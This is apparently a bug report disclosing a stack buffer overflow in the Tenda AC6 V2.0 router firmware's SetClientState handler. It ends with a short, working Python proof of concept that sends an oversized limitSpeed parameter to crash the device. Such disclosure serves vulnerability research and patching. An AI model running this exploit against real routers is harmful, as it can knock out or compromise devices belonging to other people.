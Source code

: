 # Bug Report: Buffer Overflow in Tenda AC6 V2.0 15.03.06.50 Router
A buffer overflow vulnerability has been identified in the Tenda AC6 V2.0 15.03.06.50 router firmware that allows remote attackers to potentially execute arbitrary code or cause denial of service through malformed HTTP requests.

## Vulnerability Details

### Product Information
- **Product**: Tenda AC6 V2.0 Wireless Router
- **Affected Version**: 15.03.06.50
- **Download Source**: https://www.tendacn.com/material/show/103316
- **Vulnerability Type**: Stack-based Buffer Overflow

## Description:
A buffer overflow vulnerability exists in the HTTP request handler for the `/goform/SetClientState` endpoint. The vulnerability is triggered when processing requests containing the following parameters with excessive data lengths: `limitSpeed`/`deviceId`/`limitSpeedUp`.

![alt text](image-2.png)
## poc
![alt text](image.png)
![alt text](image-1.png)


## Reproduce
```python
#!/usr/bin/env python3
from pwn import *
import requests

def send_payload(url, payload):
    print("sending...")
    response = requests.get(url, params={'limitSpeed': payload, 'limitEn': "1"})
    print(f"Response status code: {response.status_code}\nResponse body: {response.text}")

payload = 0x200 * b'1'
payload += b'DOIT' 
send_payload("http://10.10.10.1/goform/SetClientState", payload)
```